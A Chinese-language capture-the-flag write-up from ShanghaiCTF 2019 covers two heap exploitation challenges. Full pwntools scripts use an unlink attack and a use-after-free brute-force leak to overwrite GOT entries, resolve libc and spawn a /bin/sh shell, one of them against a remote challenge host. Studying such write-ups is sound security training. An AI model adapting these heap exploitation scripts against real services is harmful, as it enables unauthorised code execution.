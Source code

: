 ```yaml
---
title: ShanghaiCTF
date: 2019-11-03
categories: 
- competition
tags: heap
---
```


# pwn的writeup

三道题全是堆TvT

## slient_note

有关`unsorted bin`的切割。  

这里他只有两个指针，一个指向大堆，一个指向小堆，`free`之后指针没有置空。利用切割的特性可以让两个堆有`overlap`，而且题目十分友好没有开`PIE`TvT，那么就可以来一发`unlink`。  

先`free`大的，再分配小的，就可以让大堆溢出到小堆构造`unlink`。  

把`free@got`的内容写成`puts@plt`就可以泄露`libc`基址。但是这一道题没有给`libc`文件，我当时没做出来，所以还没有去钻研怎么搞。但是其他两道题给了，根据CTF的尿性，应该可以用另外两道题的TvT。

但是这里需要注意的一个地方是记得在`top chunk`之前做分割！！！

## exp

```python
from pwn import *
import sys

context.log_level = 'debug'

elf = ELF('./pwn')
sh = process('./pwn')
libc = elf.libc

def add(tag,content):
    sh.sendlineafter('Exit\n','1')
    sh.sendlineafter('Large\n',str(tag))
    sh.sendlineafter('Content:\n',content)

def update(tag,content):
    sh.sendlineafter('Exit\n','3')
    sh.sendlineafter('Large\n',str(tag))
    sh.sendlineafter('Content:\n',content)

def delete(tag):
    sh.sendlineafter('Exit\n','2')
    sh.sendlineafter('Large\n',str(tag))

LARGE = 2
SMALL = 1

add(LARGE,'aaaa')
add(SMALL,'gggg')

delete(LARGE)
add(SMALL,'bbbb')
add(SMALL,'cccc')

ptr = 0x06020D8
payload = p64(0) + p64(0x21) + p64(ptr - 0x18) + p64(ptr - 0x10) + p64(0x20) + p64(0x210)
pause()
update(LARGE,payload)
delete(SMALL)

free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
payload = p64(0) + p64(0) + p64(puts_got) + p64(free_got)
update(LARGE,payload)
update(LARGE,p64(puts_plt))
delete(SMALL)

puts_addr = u64(sh.recv(6) + '\x00\x00')
libc_addr = puts_addr - libc.symbols['puts']
system_addr = libc_addr + libc.symbols['system']
log.info('---------->puts_addr:{:#x}'.format(puts_addr))
log.info('---------->system_addr:{:#x}'.format(system_addr))

update(LARGE,p64(system_addr))
add(SMALL,'/bin/sh\x00')
delete(SMALL)

sh.interactive()
sh.close()
```

## login

有关爆破的一个题。  

这题也是UAF，`free`之后指针没有置空。注册一个密码长度`0x18`的用户，删除之后再注册一个密码长度`0x18`的用户，就可以实现用户堆和密码堆之间互写。  

用户堆的第一项是密码堆的地址，第二项是一个函数地址，在`login`成功的时候会调用这个函数，并且用第一项作为参数传入。现在这个两个地址都是可写的。难点在怎么把地址弄出来。  

这个地方需要密码堆的内容和你输入的内容相等才能够调用，一开始一直想不出来，但是感谢一位同学提供的思路。  

比如这里我们要爆破`free`的地址，但我们不必往第一项里写`free@got`，可以先写`free@got + 5`，由于地址的最低位是`\x00\x00`,所以我们只需要输入`\x7f`就可以调用第二项的函数。那么接下来输入+4+3……，就可以一位一位爆破出来。

```python
from pwn import *
import sys

#context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','-c']

elf = ELF('./login')

if sys.argv[1] == 'l':
    libc = elf.libc
    sh = process('./login')
else:
    libc = ELF('./libc-2.23.so')
    sh = remote('8sdafgh.gamectf.com',20000)

def register(id,length,pswd):
    sh.sendlineafter('Choice:\n',str(2))
    sh.sendlineafter('id:\n',str(id))
    sh.sendlineafter('length:\n',str(length))
    sh.sendafter('password:\n',str(pswd))

def login(id,length,pswd):
    sh.sendlineafter('Choice:\n',str(1))
    sh.sendlineafter('id:\n',str(id))
    sh.sendlineafter('length:\n',str(length))
    sh.sendafter('password:\n',str(pswd))
    
def delete(id):
    sh.sendlineafter('Choice:\n',str(3))
    sh.sendlineafter('id:\n',str(id))

def edit(id,pswd):
    sh.sendlineafter('Choice:\n',str(4))
    sh.sendlineafter('id:\n',str(id))
    sh.sendlineafter('pass:\n',str(pswd))


free_got = elf.got['free']
puts_got = elf.got['puts']

register(0,0x18,'aaaa')
delete(0)
register(1,0x18,p64(free_got))
ii = '\x7f'
for r in range(5):
    edit(1,p64(free_got+4-r))
    for i in range(0,0xff+1):
        login(0,0x18, chr(i) + ii)
        info = sh.recvuntil('\n')
        if info[0] == 'W':
            continue
        else:
            ii = chr(i) + ii
            log.info('{}'.format(ii))
            break
pause()
free_addr = u64(ii + '\x00\x00')
free_libc = libc.symbols['free']
libc_addr = free_addr - free_libc
system_addr = libc_addr + libc.symbols['system']
bin_sh = libc_addr + libc.search('/bin/sh').next()

edit(1,p64(bin_sh)+ p64(system_addr))
login(0,0x8,'/bin/sh')
sh.interactive()
sh.close()
```